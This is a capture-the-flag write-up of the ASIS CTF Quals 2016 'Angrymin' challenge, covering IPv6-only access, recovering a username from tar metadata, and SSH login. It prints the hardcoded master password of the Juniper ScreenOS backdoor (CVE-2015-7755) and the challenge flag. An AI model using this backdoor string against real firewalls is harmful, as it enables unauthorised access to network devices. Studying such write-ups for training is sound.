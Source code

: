 Angrymin
========

* **CTF:** [ASIS CTF Quals 2016](https://asis-ctf.ir/)
* **Category:** Misc
* **Points:** 52
* **Solves:** 19

>> Today, unfortunately I must inform you that I am resigning from my position at you company effective immediately. As each day passed by, it became more clear that you do not care about your customers nor your employees. While I may not be able to change your ways, at least I can stop helping you with my expertise.
>> I have uploaded all the backups, documents and manuals on [here](angrymin.tar.xz). If you find some other sys-admin stupid enough to work for you, those files are more than enough to help him get started. Meanwhile, I am keeping the **username** and **password** for the [firewall](http://juniper.asis-ctf.ir), just to annoy you.
>>
>> Burn in hell,
>>
>> yours truly
>>
>> sys-admin
>
> Would you help this poor boss to find specific username and password?
>
> 4 ≠ 6

We wouldn't expect firewall to expose HTTP server, would we? Indeed, when we click "firewall" link, nothing happens. Some people received errors like `ERR_NAME_NOT_RESOLVED`. Also, for some it was impossible to ping this host:

```
$ ping juniper.asis-ctf.ir
ping: unknown host juniper.asis-ctf.ir
```

This was a bit tricky task and there were a lot questions whether it is broken at CTF IRC channel. It wasn't, but... why some people were unable to access it?

Here's why:

```
$ host juniper.asis-ctf.ir
juniper.asis-ctf.ir has IPv6 address 2406:d501::613c:a652
```

That is, `juniper.asis-ctf.ir` is an IPv6-only host. "4 ≠ 6" in task description was a hint (which was added shortly after CTF began). It is impossible to access IPv6-only host using IPv4 connection... directly. We're not doomed.

We won't describe the details, but there are at least few methods to get IPv6 connection on IPv4-only host (you need some basic networking knowledge):

* **[Teredo](https://en.wikipedia.org/wiki/Teredo_tunneling)** - this mechanism is built-in in Microsoft Windows operating systems and preconfigured to use `teredo.ipv6.microsoft.com` public Teredo gateway. However, to provide optimal user experience, it is configured not to resolve AAAA DNS records (IPv6 address pointers) - this would slower connections with dual-stack (IPv4 and IPv6) hosts, as client may prefer to use IPv6 address (unaware that this is non-native connection involving gateway far, far away in the Internet). Also, Teredo is dormant until we try to connect to some IPv6 host. Pinging address we discovered on our own a few times should be enough to wake it (of course if configured Teredo server is responding, which is not always the case; sometimes there are also problems with NAT traversal).
* **[6to4 anycast](https://en.wikipedia.org/wiki/6to4)** - another easy way to access IPv6 hosts. Some helpful Internet service providers announce their publicly available 6to4 relay under well-known adress of 192.88.99.1 (see what [anycast](https://en.wikipedia.org/wiki/Anycast) is). You only have to configure appropriate route. This method requires you to have public IPv4 address (and router capable of protocol 41 redirection, if you don't connect your PC to ISP network directly).
* **6to4 tunnel** - there are numerous tunnel providers, most notably [Hurricane Electric](https://tunnelbroker.net/) and [SixXS](https://www.sixxs.net/). They require additional configuration (compared to 6to4 anycast), but they allow you to create whole new IPv6 subnet only for yourself (instead of having single IPv6 address). SixXS is also able to work from behind NAT gateways or routers without protocol 41 support (AYIYA - Anything In Anything)!
* **rent a virtual machine** - you can for example use "Droplet" at [DigitalOcean](https://www.digitalocean.com/community/tutorials/how-to-enable-ipv6-for-digitalocean-droplets); not all cloud providers support IPv6, so make sure to check features they offer first

Okay. Now we have IPv6 connectivity to `juniper.asis-ctf.ir`. Try pinging it first; note that under Linux operating systems you have to use different command than for IPv4 hosts!

```
$ ping6 juniper.asis-ctf.ir -c4
PING juniper.asis-ctf.ir(2406:d501::613c:a652) 56 data bytes
64 bytes from 2406:d501::613c:a652: icmp_seq=1 ttl=44 time=331 ms
64 bytes from 2406:d501::613c:a652: icmp_seq=2 ttl=44 time=331 ms
64 bytes from 2406:d501::613c:a652: icmp_seq=3 ttl=44 time=331 ms
64 bytes from 2406:d501::613c:a652: icmp_seq=4 ttl=44 time=331 ms

--- juniper.asis-ctf.ir ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 2999ms
rtt min/avg/max/mdev = 331.792/331.889/331.964/0.709 ms
```

Gotcha. There is still no HTTP server (we get timeouts), but maybe we should try our luck with SSH? (raccoons was our local username; by default SSH tries to use the same username at remote host.)

```
$ ssh juniper.asis-ctf.ir
The authenticity of host 'juniper.asis-ctf.ir (2406:d501::613c:a652)' can't be established.
RSA key fingerprint is 77:03:0f:db:66:9e:22:f7:d1:91:36:66:d6:0d:5e:9a.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'juniper.asis-ctf.ir,2406:d501::613c:a652' (RSA) to the list of known hosts.
raccoons@juniper.asis-ctf.ir's password:
```

Okay. There is an SSH server waiting for us to login. We know that angry admin left us with no username and password, but we have some backups...

```
$ ls -alh
total 1.6M
drwxr-xr-x 2 raccoons raccoons 4.0K May  6 13:37 .
drwxr-xr-x 9 raccoons raccoons 4.0K May  9 20:57 ..
-rwxr-xr-x 1 raccoons raccoons 647K May  6 13:37 630_upgrade.pdf
-rwxr-xr-x 1 raccoons raccoons  62K May  6 13:37 Firewall-Juniper.jpg
-rwxr-xr-x 1 raccoons raccoons  725 May  6 13:37 Links.txt
-rwxr-xr-x 1 raccoons raccoons  20K May  6 13:37 juniper-srx100.jpg
-rwxr-xr-x 1 raccoons raccoons  67K May  6 13:37 netscreen-640x364.jpg
-rwxr-xr-x 1 raccoons raccoons 563K May  6 13:37 rn_540r9.pdf
-rwxr-xr-x 1 raccoons raccoons  22K May  6 13:37 srx100.jpg
-rwxr-xr-x 1 raccoons raccoons 186K May  6 13:37 upgrade_guide.pdf
```

ARGH! There are no backups! These are only some user guides and images. Maybe there is some stegano involved? Erm, no. These are untouched files downloaded straight from the Internet (we've managed to find all of them - except Links.txt - and compare checksums).

But at least we know target device - Juniper SRX100 firewall with ScreenOS. Maybe default passwords are working? Unfortunately, no.

If you are lucky, you've heard something about Juniper at the end of 2015. If not... you would probably start searching for known vulnerabilities now, right?

There is one really interesting critical vulnerability - [CVE-2015-7755: Juniper ScreenOS Authentication Backdoor](https://community.rapid7.com/community/infosec/blog/2015/12/20/cve-2015-7755-juniper-screenos-authentication-backdoor). Speaking briefly, all you need to access ScreenOS device with backdoored firmware, is any valid username and `<<< %s(un='%s') = %u` password (easy to mistake it for some debugging format string in source code, huh?).

We still need a valid username. It's not `netscreen`, it's not `admin`, neither `root` or `sys-admin`. Maybe there something in the `.tar` archive itself? File modification dates seem odd. It's not any of the filenames, there are no comments in archive...

But you should now one little thing, evil sys-admin. By default `tar` preserves file owner and group usernames in plaintext format!

```
$ tar --list -tf juniper.tar.xz
drwxr-xr-x craigswright/craigswright 0 2016-05-06 13:37 juniper/
-rwxr-xr-x craigswright/craigswright 575639 2016-05-06 13:37 juniper/rn_540r9.pdf
-rwxr-xr-x craigswright/craigswright  62711 2016-05-06 13:37 juniper/Firewall-Juniper.jpg
-rwxr-xr-x craigswright/craigswright  19658 2016-05-06 13:37 juniper/juniper-srx100.jpg
-rwxr-xr-x craigswright/craigswright 190373 2016-05-06 13:37 juniper/upgrade_guide.pdf
-rwxr-xr-x craigswright/craigswright    725 2016-05-06 13:37 juniper/Links.txt
-rwxr-xr-x craigswright/craigswright  68122 2016-05-06 13:37 juniper/netscreen-640x364.jpg
-rwxr-xr-x craigswright/craigswright  21671 2016-05-06 13:37 juniper/srx100.jpg
-rwxr-xr-x craigswright/craigswright 662466 2016-05-06 13:37 juniper/630_upgrade.pdf
```

Is `craigswright` our sys-admin from hell?

```
$ ssh juniper.asis-ctf.ir -l craigswright
craigswright@juniper.asis-ctf.ir's password:
ASIS{wh0_1n_h15_r16h7_m1nd_w0uld_b3l13v3_cr416_wr16h7_15_54705h1_n4k4m070}
Connection to juniper.asis-ctf.ir closed.
```

Yes, he is. But we're not sure whether is he a creator of Bitcoin. :)
